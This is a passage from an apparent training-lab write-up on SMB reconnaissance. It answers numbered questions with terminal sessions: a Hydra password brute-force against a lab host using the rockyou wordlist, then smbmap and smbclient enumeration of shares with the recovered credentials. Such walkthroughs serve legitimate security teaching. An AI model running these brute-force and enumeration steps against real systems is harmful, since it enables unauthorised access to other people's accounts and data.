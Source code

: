 ```bash
```

```bash
root@attackdefense:~# hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.10.76.3 smb 
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-26 14:32:05
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking smb://192.10.76.3:445/
[445][smb] host: 192.10.76.3   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-26 14:32:07
```

> 3. Which share is read only? Use smbmap with credentials obtained in question 2.

Answer: `nancy`

```bash
root@attackdefense:~# smbmap -u admin -p password1 -H 192.10.76.3
[+] Finding open SMB ports....
[+] User SMB session establishd on 192.10.76.3...
[+] IP: 192.10.76.3:445 Name: target-1                                          
        Disk                                                    Permissions
        ----                                                    -----------
        shawn                                                   READ, WRITE
        nancy                                                   READ ONLY
        admin                                                   READ, WRITE
        IPC$                                                    NO ACCESS
```

> 4. Is share “jane” browseable? Use credentials obtained from the 1st question.

Answer: No

```bash
root@attackdefense:~# smbclient -L 192.10.76.3 -U jane
Enter WORKGROUP\jane's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        shawn           Disk      
        nancy           Disk      
        admin           Disk      
        IPC$            IPC       IPC Service (brute.samba.recon.lab)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        RECONLABS            
```
